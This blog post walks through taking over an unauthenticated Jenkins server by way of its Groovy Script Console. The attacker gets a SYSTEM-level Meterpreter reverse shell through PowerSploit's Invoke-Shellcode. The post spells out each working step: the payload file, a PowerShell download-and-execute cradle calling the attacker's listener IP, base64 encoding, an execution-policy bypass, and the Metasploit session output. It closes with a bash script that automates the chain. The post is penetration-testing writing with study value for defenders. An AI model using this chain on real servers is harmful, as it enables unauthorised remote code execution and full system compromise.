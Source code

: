 ```yaml
---
layout: post
title: "jenkins to meterpreter - toying with powersploit"
date: 2015-05-26 20:40:40 +0200
comments: true
categories:
- powershell
- meterpreter
- jenkins
- command execution
---
```


{% img right https://i.imgur.com/DNRQ8Nv.png %}

Recently I came across a few [Jenkins](https://jenkins-ci.org/) continuous integration servers. A relatively old version I might add but that fact was not important. What was important though was the fact that it was not configured to be *'secure'*. Right out of the box Jenkins does not require any authentication to make use of it. In fact, it seems like its almost plug and play.
<!--more-->

## groooooooovy
At first glance I was not too sure about what opportunities I was presented with when finding this. Poking around through the web interface eventually got me to the *Script Console* that Jenkins provides:

{% img https://i.imgur.com/5X43NOP.png %}

This looked promising. *'Type in an arbitrary Groovy script and execute it on the server.'* I had zero idea what Groovy Script was so to the le-Googles it was. Some research revealed that it is actually possible to execute commands using it. In fact, the syntax was quite expressive as explained in the [documentation](http://www.groovy-lang.org/groovy-dev-kit.html#process-management).

```text
def process = "ls -l".execute()
println "Found text ${process.text}"
```

The documentation goes into enough detail explaining the different options you have to execute commands, but the above snippet was enough to get going. To help with testing, I setup a local instance of the latest Jenkins (v1.615) and ran the Groovy Script. Remember, I was able to do this without any authentication requirement!

{% img https://i.imgur.com/UY83gvp.png %}

Nice and easy command execution! :D

## interactive shell, power shell
Getting an interactive shell on linux based hosts was as simple as picking your favorite flavor of [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moving on from there. On Windows based environments though, the builtin `cmd.exe` definitely has its limitations. For this reason, reaching out for a meterpreter shell is almost a knee-jerk reaction.

The one Jenkins machine that I had found was running on Windows as `nt authority\system`, which of course was *great* news! I figured though that in order to get a meterpreter shell, I'd have to approach this in some conventional way of obtaining credentials and launching it with say the metasploit SMB PSExec, or uploading an .exe somehow and executing that. *Or...* I could just make use of `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit) to download and execute one using one command.

Admittedly, I have never actually done this so a little Google-fu and research was needed to get it working right, but eventually this payed off.

In essence, getting the meterpreter shell up required 2 things (apart from the command execution). A `payload` which includes the `Invoke-Shellcode.ps1` powershell script together with the meterpreter connection details, and an encoded powershell command to be executed using the command execution we have. Together these will download the hosted payload and prepare the meterpreter. If this sounds a little confusing, don't worry it should be more clear after we have gone through it.

## preparing the payload
As already mentioned, I was going to use `Invoke-Shellcode.ps1` from [PowerSploit](https://github.com/mattifestation/PowerSploit). This will go into the payload that needs to be downloaded to bring the meterpreter up. When talking about *payload* here, all it really is is a file that will be made available via HTTP for the powershell script to download.

The payload will consist of 2 parts. First, defining `function Invoke-Shellcode {}`, and then invoking the function for a `windows/meterpreter/reverse_https` shell. Kali Linux has powersploit available in `/usr/share` so all I really did was cat it to my `payload` file:

```bash
$ cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
```

After that, I added the following line to the `payload` file which will invoke the introduced function and connect the meterpreter. My listener was on 192.168.252.1 on port 443:

```bash
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.252.1 -Lport 443 -Force
```

This file was finally served via HTTP using the python SimpleHTTPServer with `python -m SimpleHTTPServer` which meant that it would be available at http://192.168.252.1:8000/payload.

## preparing the command
Next, we need to prepare the actual command to run. We will make use of the powershell [Invoke-Expression](https://technet.microsoft.com/en-us/library/hh849893.aspx) command and give it a [Net.WebClient.DownloadString](https://msdn.microsoft.com/en-us/library/ms144200(v=vs.110.aspx) object to download the payload we previously prepared and execute it.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')
```

That whole command needs to be [encoded](http://blogs.msdn.com/b/timid/archive/2014/03/26/powershell-encodedcommand-and-round-trips.aspx) so that, using the command injection, we can run powershell and not worry about escaping and things like that. I found some snippets online to help with this.

```bash
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
```

The above will output a base64 encoded string that should be passed to the Powershell `-Enc` flag for execution. The last hurdle to overcome was a potential execution policy. The tl;dr of this is that it can be bypassed by simply passing `-Exec ByPass` to the powershell executable. So, in summary, the command will be as follows:

```powershell
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4 [snip] BjBkACcAKQAKAA==
```

## pwn
So, I now had the `payload` file available for download via HTTP, and the command I needed to run. The last thing I had to do was setup a reverse_https listener in metasploit and run the command!

{% img https://i.imgur.com/xBh1Uz9.png %}

From the python web server we can see the request come in for the payload:

```text
192.168.252.100 - - [28/May/2015 12:37:15] "GET /payload HTTP/1.1" 200 -
```

And pop!

```bash
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Starting the payload handler...
[*] 192.168.252.100:54023 Request received for /INITM...
[*] 192.168.252.100:54023 Staging connection for target /INITM received...
[*] Meterpreter session 1 opened (192.168.252.1:443 -> 192.168.252.100:54023) at 2015-05-28 12:37:17 +0200

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## automation
While testing this, I slapped together a small script that will prepare the command to run and start the SimpleHTTPServer:

```bash
#!/bin/bash

# meterpreter ip & port
lhost=192.168.252.1
lport=443

echo " * Writing Payload"
cat /usr/share/powersploit/CodeExecution/Invoke-Shellcode.ps1 > payload
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $lhost -Lport $lport -Force" >> payload

echo " * Prepping Command"
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$lhost:8000/payload')"
echo $scriptblock

echo
echo " * Encoding command"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode

command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
echo
echo " * Final command"
echo $command

echo
echo " * Starting HTTP Server to serve payload"
python -m SimpleHTTPServer
```